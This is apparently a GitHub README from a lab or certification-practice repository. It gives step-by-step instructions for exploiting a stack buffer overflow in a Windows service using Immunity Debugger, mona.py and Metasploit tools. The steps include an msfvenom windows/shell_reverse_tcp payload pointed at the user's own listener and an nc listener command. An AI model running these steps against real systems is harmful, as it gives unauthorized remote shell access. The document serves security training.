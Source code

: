 # Buffer Overflow Steps

1. Setup target ip and port in config.json

2. Setup your ip and a port you will be listening on 

## Fuzzing

3. Run vulnerable service in immunity (with mona.py installed)

4. Run `python fuzzer.py`

5. Note the last bytes fuzzed before crashing

6. Type `!mona config -set workingfolder c:\mona\%p` into immunity

## First Payload

7. Run pattern_create with the offset from step 5 + 400. 
`/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l <bytes from step 5 + 400>`

8. Place this pattern in the config retn. Set payload_ready to false

9. Re-run the vulnerable service

10. Run `python exploit.py`

11. `!mona findmsp -distance <bytes+400>` 

12. Find "EIP contains... " (offset xxxx) and modify the config offset to contain this new offset value.

## EIP Control Confirmation

13. Set retn to "BBBB"

14. Re-run service, re-run exploit

15. Confirm that EIP is 0x42424242. If not, there's a problem

## Bad Char Removal

16. `!mona bytearray -b "\x00"`

17. Run `python badchars.py`

18. Set config buf to the text printed out by badchars

19. Re-run service, re-run exploit

20. Fill in the ESP address in the following: `!mona compare -f c:\mona\<filename>\bytearray.bin -a <esp>` 

21. Read the bad bytes that mona throws back. Place them in config badchars. Repeat steps 16 to 20 until there are no more bad bytes. Adjust bytes in step 16 as well. 

## The Exploit

22. `!mona jmp -r esp -cpb "<badbytes>"`

23. Choose an address of `jmp esp` given in the log, set it as config retn

24. `msfvenom -p windows/shell_reverse_tcp LHOST=<yourip> LPORT=<yourport> EXITFUNC=thread -b "<badbytes>" -f py -o payload.py`

25. Set config payload_ready to true

26. `nc -nvlp 4444`

27. Re-run service, re-run exploit. 
